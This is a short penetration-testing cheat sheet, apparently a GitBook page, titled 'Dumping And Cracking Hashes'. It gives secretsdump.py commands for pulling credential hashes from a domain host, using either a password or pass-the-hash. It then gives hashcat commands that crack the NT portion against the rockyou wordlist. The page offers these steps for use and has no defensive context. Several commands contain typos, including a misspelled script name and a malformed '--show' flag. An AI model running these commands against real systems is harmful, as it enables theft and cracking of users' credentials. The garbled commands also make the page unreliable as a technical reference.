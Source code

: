 # Dumping And Cracking Hashes

```
secretsdump.py <domainname>/<userer>:'<pswd>@<ip>
```

for hash

```
secretdumps.py <user>@<ip> -hashes <>
```

Cracking hashes

For Cracking hashes we only need NT portion not lm

eamplex-

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>The Secound part of the hash</p></figcaption></figure>

Save that hash into a text file&#x20;

```
hashcat --help | grep <hash type>
```

Then we get an number

```
hashcat -m <the number> <filename> /usr/share/wordlists/rockyou.txt
```

```
hashcat -m <the number> <filename> /usr/share/wordlists/rockyou.txt --showc
```
